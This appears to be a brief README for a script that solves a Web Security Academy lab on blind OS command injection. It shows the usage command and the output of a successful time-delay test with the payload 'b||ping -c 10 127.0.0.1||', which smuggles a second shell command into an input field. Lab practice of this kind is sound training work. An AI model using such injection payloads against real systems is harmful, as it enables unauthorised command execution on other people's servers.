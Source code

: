 ### USAGE :
```bash
python3 script.py https://ac041faf1e98ea44c038053c00a8006d.web-security-academy.net/
```
Output:
```
delay =  10.767915487289429
Attack succcessful with Testing Payload : b||ping -c 10 127.0.0.1||
```

__You can change payload according to your convinience.__
